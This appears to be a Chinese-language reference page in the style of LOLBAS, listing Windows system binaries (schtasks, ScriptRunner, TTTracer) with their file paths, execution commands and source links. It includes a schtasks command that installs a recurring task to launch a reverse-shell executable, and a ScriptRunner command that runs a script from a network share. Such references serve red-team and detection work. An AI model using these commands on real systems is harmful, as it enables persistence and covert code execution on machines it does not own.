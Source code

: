 ## Schtasks.exe
- 使用说明：
schtasks.exe是安排命令和程序定期运行或在指定时间内运行。从计划表中添加和删除任务，按需要启动和停止任务，显示和更改计划任务。

文件路径:
```
c:\windows\system32\schtasks.exe
c:\windows\syswow64\schtasks.exe
```
- 执行方式：
```
schtasks /create /sc minute /mo 1 /tn "Reverse shell" /tr c:\some\directory\revshell.exe
```
- 参考资料：
```
https://isc.sans.edu/forums/diary/Adding+Persistence+Via+Scheduled+Tasks/23633/
```

## Scriptrunner.exe
- 使用说明：

ScriptRunner.exe 被视为一种 Windows Executable 文件。它最常用于由 Microsoft 开发的 Microsoft (R) Windows (R) Operating System。它使用 EXE 文件扩展名， 并被视为 Win32 EXE (可执行的应用程序) 文件。

ScriptRunner.exe 最初开发于 07/29/2015，位于 Windows 10 操作系统中，适用于 Windows 10。 此文件版本标记出来自Microsoft 的最新和最近更新版本。


文件路径:
```
C:\Windows\System32\scriptrunner.exe
C:\Windows\SysWOW64\scriptrunner.exe
```
- 执行方式：
```
Scriptrunner.exe -appvscript calc.exe
ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
```
- 参考资料：
```
https://twitter.com/KyleHanslovan/status/914800377580503040
https://twitter.com/NickTyrer/status/914234924655312896
https://github.com/MoooKitty/Code-Execution
```

## Tttracer.exe
- 使用说明：

TTTracer.exe，Microsoft的Time Travel工具，客户可以运行客户端版本来跟踪程序的流程。

文件路径:
```
C:\Windows\System32\tttracer.exe
C:\Windows\SysWOW64\tttracer.exe
```
- 执行方式：
```
tttracer.exe C:\windows\system32\calc.exe
```
- 参考资料：
```
https://twitter.com/oulusoyum/status/1191329746069655553
https://twitter.com/mattifestation/status/1196390321783025666
https://lists.samba.org/archive/cifs-protocol/2016-April/002877.html
```
